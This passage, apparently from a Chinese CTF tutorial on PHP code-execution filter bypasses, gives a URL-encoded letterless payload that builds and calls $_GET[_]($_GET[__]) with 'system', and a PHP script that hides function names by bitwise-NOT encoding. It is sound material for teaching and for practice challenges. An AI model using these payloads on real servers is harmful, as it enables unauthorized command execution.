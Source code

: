 ```
%24_%3D%5B%5D.''%3B%24_%3D%24_%5B''%3D%3D'%24'%5D%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24__%3D%24_%3B%24_%2B%2B%3B%24_%2B%2B%3B%24___%3D%24_%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%3D%24___.%24__.%24_%3B%24_%3D'_'.%24_%3B%24%24_%5B_%5D(%24%24_%5B__%5D)%3B
```

然后传参`&_=system&__=dir;`
![image-20230709001759231](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230709001759231.png)

如果是POST传参方式也可以这样：

![image-20230709002008799](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230709002008799.png)

> 在自增中，可以通过特殊字符构造出字符串的有以下几种方式
>
> ```
> [].''  //Array
> (0/0).''   //NAN
> (1/0).''   //INF
> ```
>
> 如果ban了数字：
>
> ```
> a/a	 //NAN
> _/_	 //NAN
> INF	 //1/a
> ```





### 取反构造

利用不可见字符，进行两次取反,得到的还是其本身。当我们进行一次取反过后，对其进行URL编码，再对其进行取反，此时可以得到可见的字符，它的本质其实还是这个字符本身，然后因为取反用的多是不可见字符，所以这里就达到了一种绕过的目的。

这里的话利用一个php脚本即可获取我们想要的字符

```PHP
<?php
$ans1='system';//函数名
$ans2='dir';//命令
$data1=('~'.urlencode(~$ans1));//通过两次取反运算得到system
$data2=('~'.urlencode(~$ans2));//通过两次取反运算得到dir
echo ('('.$data1.')'.'('.$data2.')'.';');
```

本地测试

![image-20230709004904597](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230709004904597.png)

然后
![image-20230709005351719](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230709005351719.png)





参考：

[CTF随笔-RCE进阶](https://www.jianshu.com/p/955bae08f5e1)
